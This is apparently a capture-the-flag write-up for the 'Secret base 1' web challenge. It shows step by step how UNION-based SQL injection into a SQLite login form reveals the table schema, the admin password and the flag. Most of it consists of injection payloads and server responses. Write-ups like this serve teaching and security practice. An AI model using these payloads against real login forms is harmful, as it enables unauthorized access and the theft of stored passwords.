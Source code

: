 # Secret base 1

> Category: Web

> APOCALYPSE hired an administrator improve the physical security of their secret base.
> Your task is to gain access to the physical security device.

>  The flag for this challenge is similar to Cyberthon{h...e} (starts with 'h' and ends with 'e').

This is a typical SQL injection challenge without any filters. Database is sqlite, with table `users_table` from a HTML comment in the login page.

Starting with payload `username = admin';#` we get an error that the password for `admin` is incorrect. Thus, the query executed is probably something like

```python
data = query(f"select * from users_table where username='{username}'")
if (data["password"] == password):
   # ...
```

We can use union SQL injection to control returned password. But first, we need to find out how many columns there are in the `users_table`. `username = a' union select 'a', 'b', 'c';#`  produces no error so there are 3 columns. Additionally we get a message `Invalid password for b`, so the second column is the username. Let's investigate further by dumping the SQL of the `users_table`.

````
Payload: username = a' union select 'a', sql, 'c' from sqlite_master where tbl_name='users_table';#
Response: Invalid password for CREATE TABLE users_table(id INTEGER PRIMARY KEY, username TEXT, password TEXT)!
````

Our hypothesis is correct. We can continue to use this approach to dump more info from the table.

```
Payload: username = a' union select 'a', password, 'c' from users_table;#
Response: Invalid password for Adm1nP@s5w0rd123!@#!
```

Presumably, this is the admin's password. Still no flag tho. Let's look at other users' passwords

```
Payload: username = a' union select 'a', password, 'c' from users_table where username not like 'admin';#
Response: Invalid password for Cyberthon{h3re5_0nE_f1Ag_1N_d@taBa5e}! 
```

